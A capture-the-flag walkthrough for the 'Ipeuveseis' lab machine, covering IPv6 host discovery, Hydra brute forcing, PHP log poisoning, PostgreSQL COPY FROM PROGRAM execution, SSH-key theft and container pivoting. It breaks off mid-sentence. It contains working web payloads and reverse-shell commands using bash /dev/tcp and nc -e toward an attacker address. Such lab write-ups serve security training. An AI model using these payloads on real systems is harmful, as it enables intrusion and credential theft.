Here's one approach to solving the Ipeuveseis CTF machine from The Hackers Labs. This challenge can be tackled in multiple ways; this is just one of them. I recommend checking out other community writeups to compare different approaches and keep learning.

## Table of contents

## Enumeration

Unlike other machines on this platform, the target machine's IP address isn't displayed, so we need to find it ourselves.



The virtual machine's network is configured in bridged adapter mode. To identify the machine's IP, we'll use arp-scan. Since we're using VirtualBox, we know its network card MAC addresses typically start with `08:00:27`.

```
$ sudo arp-scan --localnet | grep 08:00:27
192.168.1.122   08:00:27:ca:f1:cb       (Unknown)
```

- `sudo arp-scan --localnet` sends ARP packets to all devices on the local network to discover active hosts and retrieve their IP and MAC addresses.
- Piping to `grep 08:00:27` filters the output to show only lines where the MAC starts with VirtualBox's characteristic prefix.

The result shows a device with IP `192.168.1.122` and MAC address `08:00:27:ca:f1:cb`, which is presumably our target machine.

Although we've identified the target's IP address, a port scan reveals no open ports.

```bash
$ nmap -p- 192.168.1.122
Starting Nmap 7.93 ( https://nmap.org ) at 2026-01-21 01:38 CET
Nmap scan report for 192.168.1.122
Host is up (0.000095s latency).
All 65535 scanned ports on 192.168.1.122 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
```

Looking at the machine name, `ipeuveseis`, we notice it sounds like the Spanish pronunciation of `IPv6`. This suggests the machine might be configured to expose services only over IPv6, so let's look for the target's IPv6 address.

It's worth explaining why we can't just scan the entire range like we would in IPv4. A typical IPv4 /24 network has 256 possible addresses, making it feasible to ping or scan the whole range. However, IPv6 ranges are usually /64, which means 2^64 possible addresses:

2⁶⁴ = **18,446,744,073,709,551,616 addresses**

Scanning every address in an IPv6 /64 is simply impossible due to the sheer number of IPs, so traditional IPv4 sweeps won't work. Instead, we need to use techniques like multicast to discover devices.

To find active IPv6 devices on the local network when we don't know their addresses, we can send a multicast ping to all nodes. Additionally, if we know the target's MAC address, we can calculate its link-local IPv6 directly using the EUI-64 format (prefix `fe80::/64`) without waiting for a ping response.

To send the ping, we use the following command:

```bash
ping6 -c 2 "ff02::1%eth0"
```



This command sends two ICMPv6 packets (via the `-c 2` option) to the link-local multicast address `ff02::1` through the specified network interface (`eth0`). This address represents "all nodes" on the local network, so any IPv6-enabled device will respond. It's a handy technique for enumerating active hosts on IPv6 networks.

Keep in mind that **responses to this ping will typically only show link-local IPv6 addresses** (`fe80::/64`), since those are the only addresses every interface is guaranteed to have, and they're only valid within the local network segment.

The `ping6` command doesn't typically show ULA (`fd00::/8`) or global addresses in responses, even if they're configured on the hosts. To discover whether a device has global or ULA addresses assigned, you'll usually need additional tools like nmap with IPv6 options.

Each host may respond with one or more of its IPv6 addresses, but you'll typically only see the link-local address unless the system is specifically configured to respond with another.

Now we can run an nmap scan using the discovered link-local address.

```bash
nmap -p- -sVC -6 fe80::a00:27ff:feca:f1cb%eth0
```



The nmap scan reveals important information about the exposed services:

- **Port 22/tcp (SSH)**: Open, running OpenSSH version 10.0p2 on Debian 7 with SSH protocol 2.0.
- **Port 8080/tcp (HTTP)**: Open, running Apache httpd version 2.4.66 on Debian.
- **Operating System**: Linux (Debian).
- **MAC Address**: `08:00:27:CA:F1:CB`, corresponding to an Oracle VirtualBox virtual NIC, confirming this is a VM.

The nmap `address-info` script also confirms that the MAC address belongs to a VirtualBox virtual network adapter.

Note that this scan was performed using the link-local IPv6 address (`fe80::a00:27ff:feca:f1cb`), which is only valid within the local network segment. To access web services from a browser or establish more stable connections, we'll need to obtain a global or ULA (Unique Local Address) IPv6 address from the target.

To get the IPv6 address, we can use nmap's `targets-ipv6-multicast-echo` script.

```bash
sudo nmap -6 -sL --script targets-ipv6-multicast-echo --script-args 'newtargets,interface=eth0'
```



While not strictly necessary, working with a global IPv6 address (typically starting with `2XXX:`) is more convenient. In the screenshot above, the actual IPv6 address has been hidden for privacy.

**Make note of the IPv6 address that matches the MAC address we found earlier** (`08:00:27:CA:F1:CB` in our case). This will be the victim machine's global IPv6 address that we'll use to access web services and continue the attack.

For the examples in this writeup, we'll use the sample global IPv6 address `2001:db8::1` (the `2001:db8::/32` prefix is reserved for documentation and examples per RFC 3849).

Now we can open a browser to port 8080 using the obtained IPv6. Since IPv6 addresses contain colons, you need to format the URL like this:

```text
http://[2001:db8::1]:8080/
```

Replace `2001:db8::1` with the global IPv6 address you obtained.



## Exploitation

The website on port 8080 displays a **user validation form**. Let's add a custom domain to the hosts file so we don't have to type the IP every time (replace `2001:db8::1` with your obtained global IPv6 address).

```bash
echo "2001:db8::1 ipv6.thl" | sudo tee -a /etc/hosts
```

Now we can also access the site at [`http://ipv6.thl:8080`](http://ipv6.thl:8080).

### Credential brute force

Let's try a brute force attack with Hydra using usernames from `.../metasploit/http_default_users.txt` and common passwords from `.../seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt`.

```bash
hydra -6 -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -s 8080 -f ipv6.thl http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials"
```



The brute force attack found the credentials `admin:admin123`, granting access to the panel and revealing the `logs.php` and `about.php` sections. This combination is so obvious you could guess it without any tools.

### Log Poisoning for RCE



The `logs.php` file displays web service logs, allowing us to attempt log poisoning without needing an LFI vulnerability.

1. **Get session cookie after login:**

```bash
# Login and save the cookie to a file
curl -6 -c cookies.txt -X POST -d "username=admin&password=admin123" http://ipv6.thl:8080/index.php

# Verify the cookie was saved correctly
cat cookies.txt
```

2. **Inject PHP code in the User-Agent:**

```bash
# This curl works without a cookie because index.php doesn't require authentication to receive requests
curl -6 -A "<?php system(\$_GET['cmd']); ?>" http://ipv6.thl:8080/
```

3. **Execute commands using the session cookie:**

```bash
# Access logs.php with the session cookie to execute commands
curl -6 -b cookies.txt "http://ipv6.thl:8080/logs.php?log=access&cmd=id"
```

4. **Get a reverse shell:**

```bash
# Start a listener on your attacking machine
nc -lvnp 4444

# Execute the reverse shell via logs.php with the cookie. Replace 192.168.1.123 with your attacking machine's IP.
curl -6 -b cookies.txt "http://ipv6.thl:8080/logs.php?log=access&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.123%2F4444%200%3E%261%22%20%26"
```

We get a shell as www-data.



## Lateral movement

Make sure you have a full TTY for comfortable shell interaction. You can achieve this manually or using tools like `rlwrap`, `penelope`, or a custom solution like my [shell_automation_tool](https://github.com/Len4m/shell_automation_tool).

### From the web container to the database container

With the session stabilized, let's explore the website files and environment variables to look for credentials, sensitive configurations, and potential privilege escalation or lateral movement vectors.

The website's database configuration file:

```bash
www-data@ctf:/var/www/html$ head -n 30 ../config/database.php
<?php
/**
 * Database Configuration
 * 
 * WARNING: This file contains sensitive credentials
 * TODO: Move to environment variables (NEVER commit this!)
 * 
 * ===========================================
 * INTERNAL USE ONLY - Database Credentials
 * ===========================================
 * 
 * Application User:
 *   Host: fd00:1337:1::20
 *   Port: 5432
 *   Database: database
 *   User: user
 *   Pass: jec41Ew98zB4ch3nM0vP
 * 
 * Super Admin (for maintenance only):
 *   User: superadmin
 *   Pass: jHt9b8u5whZ55551zlY1
 */

// Application database credentials
define('DB_HOST', getenv('DB_HOST') ?: 'fd00:1337:1::20');
define('DB_PORT', getenv('DB_PORT') ?: '5432');
define('DB_NAME', getenv('DB_NAME') ?: 'database');
define('DB_USER', getenv('DB_USER') ?: 'user');
define('DB_PASS', getenv('DB_PASS') ?: 'jec41Ew98zB4ch3nM0vP');

```

The environment variables:

```bash
www-data@ctf:/var/www/html$ printenv | grep DB
DB_PORT=5432
DB_USER=user
DB_HOST=fd00:1337:1::20
DB_NAME=database
DB_PASS=jec41Ew98zB4ch3nM0vP

```

Retrieved credentials:

- `user` / `jec41Ew98zB4ch3nM0vP`
- `superadmin` / `jHt9b8u5whZ55551zlY1`

Looking at the website's code and the database connection port, these credentials appear to connect to a PostgreSQL server at IPv6 address `fd00:1337:1::20` on port `5432`.

```bash
www-data@ctf:/var/www/html$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host proto kernel_lo 
       valid_lft forever preferred_lft forever
2: eth0@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 8e:39:3a:1d:8b:4a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fd00:1337:1::10/64 scope global nodad 
       valid_lft forever preferred_lft forever
    inet6 fe80::8c39:3aff:fe1d:8b4a/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
3: eth1@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether d2:f1:ef:39:09:c8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fd00:dead:beef::20/64 scope global nodad 
       valid_lft forever preferred_lft forever
    inet6 fe80::d0f1:efff:fe39:9c8/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
```

The `ip a` output shows the container has two main network interfaces, each with a global ULA IPv6 address:

- **eth0:** `fd00:1337:1::10/64`
- **eth1:** `fd00:dead:beef::20/64`

This means the container is connected to two networks: `fd00:1337:1::/64`, which provides access to PostgreSQL using the obtained credentials, and `fd00:dead:beef::/64`, which could enable communication with other services or containers on that subnet.

Let's connect to the PostgreSQL database using the `superadmin` credentials from the web container.

```bash
www-data@ctf:/var/www/html$ psql -h fd00:1337:1::20 -U superadmin database
Password for user superadmin: 
psql (17.7 (Debian 17.7-0+deb13u1), server 15.15)
Type "help" for help.

database=# 
```

### From the database container to the Backups container

Let's verify that we have superuser/database administrator privileges using the `\du` command, which grants us elevated permissions in PostgreSQL.

```sql
database-# \d
                  List of relations
 Schema |        Name        |   Type   |   Owner  
--------+--------------------+----------+------------
 public | backup_logs        | table    | superadmin
 public | backup_logs_id_seq | sequence | superadmin
 public | users              | table    | superadmin
 public | users_id_seq       | sequence | superadmin
(4 rows)

database-# \du
                              List of roles
 Role name  |                         Attributes             
------------+------------------------------------------------------------
 superadmin | Superuser, Create role, Create DB, Replication, Bypass RLS
 user       | 
```

With the `Superuser` attribute, we can execute system commands using the following payloads.

```sql
-- Execute id command
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM 'id';
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

We see that we're running as the postgres user.

```sql
-- Networks and IPs of the database container
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM 'ip a';
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

The `ip a` output shows the container has two relevant interfaces, both with assigned global ULA IPv6 addresses:

- **eth0:** `fd00:1337:2::20/64`
- **eth1:** `fd00:1337:1::20/64`

Both interfaces also have link-local addresses (`fe80::...`). The networks `fd00:1337:2::/64` and `fd00:1337:1::/64` are two different internal networks, each associated with a different interface: the first is new, while the second matches the web container's network. Both were likely configured by Docker. These ULA addresses enable internal communication between services and containers on the same networks, facilitating potential lateral movement.

```sql
-- Leaked SSH keys from backupuser
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM 'ls -la /home/postgres/.ssh/ && cat /home/postgres/.ssh/*';
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```



Continuing our investigation, we find an SSH key, the username `backupuser`, and the IPv6 address `fd00:1337:2::30`, which belongs to the previously identified `fd00:1337:2::/64` network.

To better understand connectivity between the containers and our attacking machine, let's run some network tests. If we try to ping our machine from the database container, we won't get a response—this container has no direct outbound access, so we can only interact with it from other containers like the web container.

To verify this, first monitor ICMPv6 traffic on your machine:

```bash
sudo tcpdump -n -i any icmp6
```

Then launch a ping from the web container (replace `2001:db8::10` with your attacking machine's IP):

```bash
ping -6 -c 1 2001:db8::10
```

Alternatively, run an equivalent command from the PostgreSQL database using PSQL:

```sql
-- The database container has no outbound connectivity
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM 'ping -6 -c 1 2001:db8::10';
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

This confirms that only the web container can communicate directly with our attacking machine, while the database container lacks outbound access.

We could also perform a port scan on the gateway IP of the accessible networks. However, a brute force scan only reveals port 22 open, which we don't have access to.

Let's try to access the backup container (`fd00:1337:2::30`) via SSH from the database container, using the previously obtained credentials, and run `ip a` to check its network configuration.

```sql
-- Networks and IPs of the backup container
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM $$
ssh -6 -i /home/postgres/.ssh/id_rsa backupuser@fd00:1337:2::30 "ip a"
$$;
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```



The backups container is connected to two different networks: `fd00:dead:beef::/64` (on `eth0`) and `fd00:1337:2::/64` (on `eth1`).

In summary, the containers are connected to three different internal networks within the Docker stack, as detailed below.



We've confirmed that while the web container has external connectivity, the PostgreSQL database container doesn't. However, the backup container can reach the outside since it shares the `fd00:dead:beef::/64` network with the web container.

To confirm connectivity from the backups container to our attacking machine, let's use SSH to run a ping command.

First, capture ICMPv6 packets on your attacking machine:

```bash
sudo tcpdump -n -i any icmp6
```

Then, from the database, establish an SSH connection to the backup container and ping your attacking machine's IPv6 address (replace `2001:db8::10` with your IP):

```sql
-- Verify connectivity from the backup container
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM $$
ssh -6 -i /home/postgres/.ssh/id_rsa backupuser@fd00:1337:2::30 "ping -6 -c 1 2001:db8::10"
$$;
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

This confirms the backup container can communicate directly with our attacking machine using the network that the web container also has access to.

Now that we've verified connectivity between the backups container and our attacking machine via IPv6, let's set up a listener for the reverse shell.

On our attacking machine, start listening on port 443 with IPv6 support:

```bash
nc -6 -lvnp 443
```

Next, from the database, leverage the SSH connection to the backups container and execute the following payload for a reverse shell (replace `2001:db8::10` with your machine's global IPv6 address):

```sql
-- Reverse shell from the backup container to the attacking machine
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM $$
ssh -6 -i /home/postgres/.ssh/id_rsa backupuser@fd00:1337:2::30 "nc 2001:db8::10 443 -e sh"
$$;
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

or

```sql
DROP TABLE IF EXISTS cmd_tbl;
CREATE TABLE cmd_tbl(cmd_output TEXT);
COPY cmd_tbl FROM PROGRAM $$
ssh -6 -i /home/postgres/.ssh/id_rsa backupuser@fd00:1337:2::30 "bash -i >& /dev/tcp/2001:db8::10/443 0>&1"
$$;
SELECT * FROM cmd_tbl;
DROP TABLE IF EXISTS cmd_tbl;
```

When executed successfully, you'll get an interactive shell in the backups container directly on your attacking machine.



> Note: These steps can be accomplished in various ways—for example, using tools like chisel, socat, proxychains, or other techniques depending on your preferences and the available environment.

## Escaping the Docker container

From the backup container, let's scan for accessible ports on the internal network gateway (`fd00:dead:beef::1`). This helps identify services exposed only to the internal container network.

```bash
export ip=fd00:dead:beef::1
for port in $(seq 1 65535); do
  timeout 0.01 bash -c "</dev/tcp/$ip/$port && echo The port $port is open" 2>/dev/null
done
```

During reconnaissance, besides port 8080 (the web container), we find port 8081 exposed on the gateway. Interestingly, this port is visible from the backups container but not accessible from the web container, despite both sharing the same internal network. This suggests some firewall or network configuration restriction that only allows the backup container to communicate with this specific host service.



Let's investigate what's running on port 8081 of the internal gateway with an HTTP request:

